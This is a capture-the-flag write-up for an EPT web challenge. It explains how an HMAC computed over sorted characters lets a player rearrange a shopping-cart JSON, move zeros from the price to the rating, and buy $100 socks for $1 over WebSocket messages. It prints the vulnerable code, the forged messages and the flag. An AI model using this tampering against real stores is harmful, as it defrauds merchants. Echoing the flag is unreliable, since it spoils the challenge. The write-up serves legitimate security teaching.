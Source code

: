 # shop-3
> Welcome to the new and improved EPT Merch Shop! Apparently last years version had a few bugs in it, but is should hopefully be all fixed now!
>
> Author: null  

Flag: `EPT{r3m3mb3r_t0_cl4im_y0ur_hq_ept_s0ck5!}`

## Relevant content

```
URL:
- https://shop.ept.gg/

Files:
- app.py
```

## Solve

### TL;DR

The challenge involves an online sock shop where participants need to purchase socks with a limited budget of $100.

1. Investigate the requests in Burp, find that there is websocket traffic going back and fourth.
2. View the source and find what functions are avaiable on websocket.
3. See that we can export and import our shopping cart, which seems like an interesting place to look for bugs.
4. Find something strange in the HMAC calculation, as it is sorting the characters before hashing the content. This will result in the same hash for different content, as long as all the characters are the same.
5. Manipulate our shopping cart to have valid content, but different price for the socks.
6. Purchase socks, then get the flag.

### Webpage functionallity

The first step is to open the webpage and conduct an initial investigation to understand the nature of the challenge. Upon further exploration, it becomes evident that the challenge revolves around purchasing socks within a tight budget constraint of $100. 

![recon](image.png)

To delve deeper into the application's functionalities, Burp Suite is employed to intercept and analyze network traffic. During this process, WebSocket traffic is discovered.

![websockets](image-1.png)

### Source code

To gain a better understanding of the WebSocket functions, the source code is examined. Upon scrutinizing the WebSocket functions, it is revealed that there are specific functions related to the shopping cart. Notably, the ability to export and import the shopping cart might be a potential avenue for exploitation.

![functions](image-2.png)

During the source code analysis, a peculiar aspect in the HMAC calculation is discovered. The application sorts the characters before hashing the content, and does this on both `export` as well as `resume`. This quirk leads to a vulnerability where different contents with identical characters produce the same hash. This flaw opens up the possibility of manipulating the shopping cart discreetly.

```py
def export(cart):
    cart = json.dumps(cart, sort_keys=True)
    return {'cart': cart, 'hmac': hmac.new(app.secret_key, json.dumps(sorted(cart)).encode(), hashlib.sha256).hexdigest()}

--- SNIP ---

    elif msg['type'] == 'export':
        ws.send(json.dumps({'type': 'export', **export(session['cart'])}))
    elif msg['type'] == 'resume':
        if msg['hmac'] == export(msg['cart'])['hmac']: # Calculates the sorted HMAC again on provided cart
            session['cart'] = msg['cart']
            ws.send(json.dumps({'type': 'resume', 'cart': session['cart']}))
        else:
            ws.send(json.dumps({'type': 'error', 'message': 'Invalid hmac!'}))
```

##### Sending WS requests
> Manipulation of the websocket traffic can easily be done using BurpSuite, but any WS client would likely work.

![burp example](image-3.png)


### Solution

With the vulnerability identified, the next step involves manipulating the shopping cart to maintain valid content while altering the price of the socks. This manipulation allows for the strategic purchase of socks within the budget constraints.

Now, With all this in mind we can add the socks to our cart and export the cart. This will provide a valid HMAC for a sock object. 

```json
SEND:
{
    "type": "export"
}

RECV:
{
    "type": "export", 
    "cart": "[{\"description\": \"<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!\", \"image\": \"/socks.png\", \"name\": \"EPT Socks\", \"price\": 10000, \"stars\": 5}]", 
    "hmac": "b221a7a133ca9da20e597d2f1003539a06fef94dc16eb6de7fb27387ac301607"
}
```

Using what we know of the HMAC implementation we can re-order some of the charaters used in the object to change the price in our favour. 
One solution could be to move the `0`'s from the price to the rating instead, and thus changing the price to be 1$.
Doing this will not manipulate the price and we can call the resume function with this maniupulated cart.


Now we can proceed to checkout ..

```json
SEND:
{
  "type": "resume",
  "cart": [
    {
      "description": "<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!",
      "image": "/socks.png",
      "name": "EPT Socks",
      "price": 1,
      "stars": 50000
    }
  ],
  "hmac": "b221a7a133ca9da20e597d2f1003539a06fef94dc16eb6de7fb27387ac301607"
}

REVC:
{
  "type": "resume",
  "cart": [
    {
      "description": "<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!",
      "image": "/socks.png",
      "name": "EPT Socks",
      "price": 1,
      "stars": 50000
    }
  ]
}
```

.. purchase our socks ..

```json
SEND:
{"type": "checkout"}

RECV:
{
  "type": "status",
  "money": 99,
  "cart": [],
  "inventory": [
    {
      "description": "<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!",
      "image": "/socks.png",
      "name": "EPT Socks",
      "price": 1,
      "stars": 50000
    }
  ]
}
```

.. and get the flag. 
```json
SEND:
{
    "type": "flag"
}

RECV:
{
    "type": "flag", 
    "flag": "EPT{r3m3mb3r_t0_cl4im_y0ur_hq_ept_s0ck5!}"
}
```



